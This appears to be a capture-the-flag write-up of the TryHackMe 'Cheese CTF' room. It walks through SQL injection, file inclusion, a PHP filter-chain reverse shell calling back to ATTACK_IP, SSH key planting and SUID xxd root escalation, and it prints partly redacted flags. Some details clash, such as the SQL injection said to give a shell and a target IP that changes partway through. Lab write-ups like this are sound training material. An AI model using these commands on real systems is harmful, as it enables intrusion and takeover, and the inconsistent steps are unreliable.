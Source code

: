 ```yaml
---
title: 'TryHackMe: Cheese CTF'
author: Neo-Virex
date: 2025-02-13 08:00:00 +0000
categories: [TryHackMe]
tags: [Cheese, CTF, HackTheBox, Linux, Exploit]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_cheese_ctf/
image:
  path: room_img.png
description: A detailed walkthrough of the Cheese CTF challenge, covering reconnaissance, enumeration, exploitation, and privilege escalation.
---
```



**Challenge completed:** February 21, 2025 @ 13:20 (+03:00)

## Reconnaissance

All ports were open, but the most critical services were on ports **22** (SSH) and **81** (HTTP).

```bash
rustscan -a 10.10.26.46
```

```
Open 10.10.26.46:1 3 4 5 6 8 9 10 11 13 14 16 17 18 20 22 23 24 28 30 31 32 33 38 41 42 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 74 75 76 79 81 84
```

## Service Enumeration

Brute‑forcing directories with **feroxbuster** revealed key endpoints:

```bash
feroxbuster -u http://10.10.26.46/ -w /usr/share/wordlists/dirb/big.txt
```

```
200  /images/cheese1.jpg
200  /style.css
200  /images/cheese2.jpg
200  /images/cheese3.jpg
200  /login.php
```

## Web Application Analysis

![Login Page](img1.png){: width="600" height="150" .shadow }
![Directory Listing](img2.png){: width="600" height="150" .shadow }

The login form was vulnerable to **SQL injection**. Bypassing authentication with:

```sql
username: ' OR 1=1;-- -
password: anything
```

granted a shell on the web server.

## Exploit & Initial Access

Accessing `/secret-script.php?file=../../../etc/passwd` confirmed a Local File Inclusion (LFI):

```http
GET /secret-script.php?file=../../../etc/passwd HTTP/1.1
Host: 10.10.26.46
```

> Snippet from `/etc/passwd`:
>
> ```text
> root:x:0:0:root:/root:/bin/bash
> ```
> ```
daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...
> ```
![Directory Listing](img3.png){: width="600" height="150" .shadow }


## Privilege Escalation

A PHP filter chain exploit was generated via [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and the [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
python3 php_filter_chain_generator.py \
  --chain '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/ATTACK_IP/8084 0>&1\'"); ?>' \
  | grep "php" > payload.txt
```

A listener was started:

```bash
nc -lvnp 8084
```

The payload was URL‑encoded and sent:

```bash
curl -o response.txt "http://10.10.26.46/secret-script.php?file=$(tail -n1 payload.txt)"
```

This yielded a `www-data` shell:

```bash
www-data@cheesectf:/var/www/html$ ls
adminpanel.css images index.html login.css login.php messages.html orders.html secret-script.php style.css supersecretadminpanel.html supersecretmessageforadmin users.html
```

## SSH Pivot & User Flag

The attacker’s public key was added to `/home/comte/.ssh/authorized_keys`:

```bash
echo "ssh-ed25519 AAAAC... neo@lab" >> /home/comte/.ssh/authorized_keys
```

SSH’ing as **comte**:

```bash
ssh -i ~/.ssh/id_ed25519 comte@10.10.177.192
cat user.txt  # THM{9f2ce3df1beeecaf695b[REDACTED]704c31b17a}
```

## Lateral Movement & Final Escalation

`comte` had passwordless sudo rights on the `exploit.timer` systemd unit:

```bash
sudo systemctl daemon-reload
enable exploit.timer
start exploit.timer
```

`exploit.service` copies `/usr/bin/xxd` to `/opt/xxd` with SUID:

```ini
# /etc/systemd/system/exploit.service
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && chmod +sx /opt/xxd"
```

By editing the writable timer (`/etc/systemd/system/exploit.timer`) and reloading:

```ini
[Timer]
OnBootSec=5s
```

`xxd` was leveraged to write an SSH key into root’s `authorized_keys`:

```bash
echo 'ssh-ed25519 AAAA... kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

SSH to **root** and capture root flag:

```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.177.192
cat root.txt  # THM{dca7548609[REDACTED]a929b11e5e0167c}
```

---

### Flags

* **User:** `THM{9f2ce3df1b[REDACTED]95b3a8560c682704c31b17a}`
* **Root:** `THM{dca754860948108[REDACTED]7b0a929b11e5e0167c}`
